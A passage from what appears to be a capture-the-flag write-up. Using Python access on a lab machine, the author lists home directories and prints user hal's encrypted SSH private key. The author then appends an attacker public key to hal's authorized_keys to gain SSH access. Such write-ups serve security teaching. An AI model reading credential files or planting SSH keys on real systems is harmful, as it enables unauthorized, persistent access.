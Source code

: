 There’s 4 users:

```

>>> os.listdir('/home')
['margo', 'duke', 'hal', 'theplague']

```

hal is the only one can I access:

![1559482659196](https://0xdfimages.gitlab.io/img/1559482659196.png)

### ssh as hal

Inside hal’s homedir, there’s a `.ssh` dir:

```

>>> os.listdir('/home/hal/.ssh')
['id_rsa', 'authorized_keys', 'id_rsa.pub']

```

I can pull the `id_rsa`, but it’s encrypted:

```

>>> with open('/home/hal/.ssh/id_rsa','r') as f: f.read()
'-----BEGIN RSA PRIVATE KEY-----\nProc-Type: 4,ENCRYPTED\nDEK-Info: AES-128-CBC,4F7C6A9FD8FB74EDF6E605487045F91D\n\nqVxdFeBjyqXIUkZ6A+8u77HfZgUUwmPOuhN9xFYy+f36kKwr1Wol3iWRHB7W7Ien\n5vjyyNT3+mTO272NcAwreWRH0EZWDmvltWP5e9gESTpA4ja+vNP32UNwJ9lK1PLL\nmSm7XFl4xOMkhheRzJlLRF7b41C8PKsMVP2DpaHLMxHwTCY1fX5j/QgWpwPN5W0R\nDTQvsHyFj+gfsYjCTdrHUX0Dhg+LdVr7SH9NDt0twg/RxtXkAvwbyw3eRXAR0YCB\nmrldQ4ymh91G4CapoIOyGUVZUPE/Sz1ZExVCTlfGT9LUgE8L7aaImdOxFkrKDiVb\nddhdWnXwnCrkxIaktwCSIFzl8iT71OxsQOcoq+VV8VbOsL2ICdgHNOIxQ2HonRQS\nEj19P02Ea5rOHVVx/SYxT+ce6Zx301GkYmPu80LVVFK8x7gRajMYgFu/bgC67F91\n/QQ6IYkpoSr+eY8l0aJa5IpUo20sGV6xktiyx4V5+kMudiNTE/SAAea/vCCBBqZl\n5YFdp/TW5sqvkvB5w4/a/UUj1POa0tT/Ckox9JWq2idq+tYw+MATejY+Xv1HUOun\nYuV0Lm5AjdSBAcpIfU6ztJQ1zoVVYPqWXwRia38pSFDTz1pAHt9W6JBCRT3PKLo9\nrb8xOhvx6VNj4ZgvaEdxw25RCAGyoEN6/S7z/tgVYZvWoXRqUvOkYq2iyECQ+6ib\nqn/YjpRCX0Q9/3QRH0XSfTo7GvzbS4nTC2KubxmG9CJv/AAfdf1DcpvSfjtkUn5a\nbN1NOMWbJkrFCLeS6P4fPUJt8VwEJXP+IQaqz9bJYyRI1uIrG2PhzpRZ+24iHv63\n2lY+lZpeZBdagYJcp3qnh/f6kVtD+AyhyDurQ+EhsgBdqm4XM+d7AvilTDzqiU3v\nb6ZIzTRsVTWUKsTfvkiFop64d8uIov16b6FimiG/YNFQfd7SUL8hvjJVeArWRGjO\nvPn+RB4BYS0s3VZI+08Jo/BL8EXFeuMZdpbDFnGDhaINSL1/cZasQS6hRYUJsKZN\nT7ptM3NdKNyrVGwfKyttp3OHZFjPRjZezpBR60q+HI37pt/iDkuhbeK2Pr9jNR3f\njfqv8lGlOMIoPA6ERxPveUrLldL6NfLT0gPasDrWo0RRDIzanqz0wYK/SfuIiumT\n8tonBa4kQlxAyenW1p+nx5bZ1QXPQaUbXbAe3AbOU2YG20LJ0v8mxVZE0zP9QNZM\nDSHtv3uIl3nONJIJryp8Y6UjW1q3+UaAnTS6J/IXk+JVsSIRs5hbNDtNLlhFowDq\n2OWEh2CRE7TNptk6Bb8pZbfyA/lCXJhJjo8YZLc3xZ2h1WF1vaXCHYo/FNqeoS0k\nyicWCEz2fSKfNMnMpcVreQglfA9u49+Cvqzt1JnIlX1gDUg8EXV5rLAEgiSRfVin\nB1pTjH/EROnppfQkteSbRq9B9rrvcEQ8Q5JPjr7kp3kk07spyiV6YqNmxVrvQtck\nrQ+X68SNYRpsvCegy59Dbe5/d6jMdFxBzUZQKAHCyroTiUS8PtsAIuRechR0Cbza\nOM2FRsIM8adUzfx7Q91Or+k2pIKNKqr+5sIpb4M0GHggd7gD10E+IBUjM9HsQR+o\n-----END RSA PRIVATE KEY-----\n'

```

I can more easily just create an ssh keypair and write the public key into the file:

```

>>> with open('/home/hal/.ssh/authorized_keys','a') as f: f.write('\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali')

```
